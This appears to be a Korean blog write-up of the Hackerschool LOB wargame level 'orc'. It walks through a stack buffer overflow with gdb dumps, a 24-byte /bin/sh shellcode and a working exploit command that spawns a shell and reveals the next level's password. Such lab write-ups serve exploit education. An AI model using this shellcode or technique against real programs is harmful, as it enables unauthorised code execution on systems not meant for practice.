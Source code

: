 ```yaml
---
layout: post
title: "Hackerschool LOB-goblin"
categories: [Hackerschool-LOB]
tags: [pwnable]
redirect_from:
 - /2019/07/28/
---
```

```bash
login: goblin
Password:
Last login: Fri Jul 26 18:35:38 from 192.168.194.1
[goblin@localhost goblin]$ ls
orc  orc.c 
[goblin@localhost goblin]$ cat orc.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```
goblin/hackers proof로 로그인하자.
리눅스에서는 extern이라는 환경변수 자료형이 있다.
이를 이용해 environ이라는 변수를 선언하고, egghunter이라는 글 밑의 반복문에서 모든 환경변수를 초기화시킨다.
그 밑의 조건문에서는 인좌로 주는 글의 48번째가 bf가 되어야 한다는 이야기.
이 두개만 유의해서 풀면 된다.
우선 사용할 24byte짜리 쉘 코드.
```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
쉘 코드가 들어갈 주소값을 gdb로 확인하자.
```bash
[goblin@localhost goblin]$ cp orc.c tmp/
[goblin@localhost goblin]$ cd tmp
[goblin@localhost tmp]$ ls
orc.c
[goblin@localhost tmp]$ gcc -o orc orc.c
[goblin@localhost tmp]$ gdb -q orc
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048630
0x8048511 <main+17>:    call   0x8048410 <printf>
...
0x80485b9 <main+185>:   lea    %eax,[%ebp-40]
0x80485bc <main+188>:   push   %eax
0x80485bd <main+189>:   call   0x8048440 <strcpy>
0x80485c2 <main+194>:   add    %esp,8
0x80485c5 <main+197>:   lea    %eax,[%ebp-40]
0x80485c8 <main+200>:   push   %eax
0x80485c9 <main+201>:   push   0x8048659
0x80485ce <main+206>:   call   0x8048410 <printf>
0x80485d3 <main+211>:   add    %esp,8
0x80485d6 <main+214>:   leave
0x80485d7 <main+215>:   ret
(gdb) b*main+194
Breakpoint 1 at 0x80485c2

```
C 코드가 긴 만큼 어셈블리 코드도 길어서 중간에 생략하였다.
main+189에서 strcpy를 하는 것이 보인다.
그 바로 밑줄, main+194에 break를 걸자.
C 코드에서 인좌에 48번째에 \xbf여야 하므로, 그냥 \xbf 48개를 인좌로 보내버리자.
```bash
(gdb) r $(python -c 'print"\xbf"*48')
Starting program: /home/goblin/tmp/orc $(python -c 'print"\xbf"*48')

Breakpoint 1, 0x80485c2 in main ()
(gdb) x/300x $esp
0xbffffab4:     0xbffffac0      0xbffffc42      0x00000015      0xbfbfbfbf
0xbffffac4:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffad4:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffae4:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0x00000000

...
0xbffffc24:     0x00000000      0x36383669      0x6f682f00      0x672f656d
0xbffffc34:     0x696c626f      0x6d742f6e      0x726f2f70      0xbfbf0063
0xbffffc44:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffc54:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffc64:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0x0000bfbf

```
밑에 bffffc44의 줄에 입력값이 다시 들어가는 것이 보인다.
그러므로 공격할 주소는 bffffc44로 하자.
코드는 nop*20+쉘 코드(24)+RET 덮어쓸 주소로 하자.
```bash
[goblin@localhost goblin]$ ./orc $(python -c 'print"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x44\xfc\xff\xbf"')
릱릱릱릱릱릱릱릱릱릱1픐h//shh/bin됥PS됣솻
                                         ?D??
bash$ my-pass
euid = 504
cantata
```
이 문제에서 코드중 48번째의 값은 RET의 가장 앞의 값이다.
LOB에서 배열의 주소값은 \xbf로 시작하므로 신경쓰지 않아도 되는 안전장치인 것이다.
goblin's password : "cantata"